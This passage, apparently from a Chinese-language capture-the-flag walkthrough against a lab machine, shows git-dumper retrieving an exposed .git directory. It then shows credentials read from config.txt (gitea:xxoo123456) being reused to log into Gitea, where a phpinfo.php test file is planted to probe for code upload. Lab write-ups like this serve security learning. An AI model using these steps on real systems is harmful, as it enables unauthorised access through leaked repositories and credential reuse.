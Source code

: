 发现了一个Git仓库和配置文件！

# 四、Git信息泄露利用

使用git-dumper工具下载整个Git仓库。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ git-dumper http://192.168.205.168/dev/ .              
Warning: Destination '.' is not empty
[-] Testing http://192.168.205.168/dev/.git/HEAD [200]
[-] Testing http://192.168.205.168/dev/.git/ [200]
[-] Fetching .git recursively
...
```

成功下载后查看文件内容：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ ls -la              
总计 62
...
-rwxr-xr-x 1 kali kali   757  9月 7日 15:23 config.txt
drwxr-xr-x 1 kali kali  4096  9月 7日 15:23 .git
-rwxr-xr-x 1 kali kali  8707  9月 7日 15:23 index.html
                                                                                                                                                                                
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ cat config.txt 
# Maze-Sec 项目配置
...
[database]
# 数据库配置（示例）
host = db.maze-sec.internal
port = 3306
name = maze_sec
user = gitea
password = xxoo123456
...
```

在配置文件中发现了重要信息：数据库用户名为gitea，密码为xxoo123456。尝试用这个凭据登录SSH失败。

# 五、Gitea服务利用

检查3000端口，发现运行着Gitea服务。使用获得的凭据gitea:xxoo123456成功登录Gitea。

在Gitea中发现仓库结构与/dev目录类似，怀疑存在自动同步机制。测试在Gitea中添加PHP文件：

**添加测试文件phpinfo.php：**

```php
<?php
phpinfo();
?>
```
